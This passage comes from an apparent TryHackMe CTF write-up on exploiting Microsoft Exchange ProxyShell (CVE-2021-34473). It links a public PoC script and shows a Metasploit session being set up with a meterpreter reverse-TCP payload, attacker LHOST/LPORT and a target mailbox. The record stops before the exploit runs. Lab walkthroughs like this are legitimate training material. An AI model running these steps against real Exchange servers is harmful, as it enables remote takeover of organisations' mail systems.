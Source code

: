 **Then, If you Google: "CVE-2021-34523 PoC", you'll find [this GitHub repository](https://github.com/phamphuqui1998/CVE-2021-34473):** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Lookback/images/Pasted%20image%2020230516162120.png)

We can read through ProxyShell's writeup and the exploit script.

**After that, download the Python exploit script, and run it:**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|16:22:23(HKT)]
└> python3 CVE-2021-34473.py -h
usage: CVE-2021-34473.py [-h] -u U -e E [-p P]

ProxyShell example

options:
  -h, --help  show this help message and exit
  -u U        Exchange URL
  -e E        Email address
  -p P        Local wsman port
```

In this vulnerability, it'll send an evil email to an address that you specified, and execute the reverse shell as `NT Authroity/System`.

**In user `dev`'s Desktop directory, the `TODO.txt` has an email address:** 
```
[...]
When you are done with the tasks please send an email to:

joe@thm.local
carol@thm.local
and do not forget to put in CC the infra team!
dev-infrastracture-team@thm.local
```

The `dev-infrastracture-team` sounds like the `dev` user!

However, when we run that exploit script, it's kinda weird, like getting all kinds of errors.

**Luckly, there's a working exploit in MetaSploit!**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Lookback)-[2023.05.16|16:29:20(HKT)]
└> msfconsole
[...]
msf6 > search CVE-2021-34473

Matching Modules
================

   #  Name                                          Disclosure Date  Rank       Check  Description
   -  ----                                          ---------------  ----       -----  -----------
   0  exploit/windows/http/exchange_proxyshell_rce  2021-04-06       excellent  Yes    Microsoft Exchange ProxyShell RCE


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/exchange_proxyshell_rce

msf6 > use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LHOST tun0
LHOST => 10.8.70.81
msf6 exploit(windows/http/exchange_proxyshell_rce) > set LPORT 4445
LPORT => 4445
msf6 exploit(windows/http/exchange_proxyshell_rce) > set EMAIL dev-infrastracture-team@thm.local
EMAIL => dev-infrastracture-team@thm.local
msf6 exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS WIN-12OUO7A66M7.thm.local
```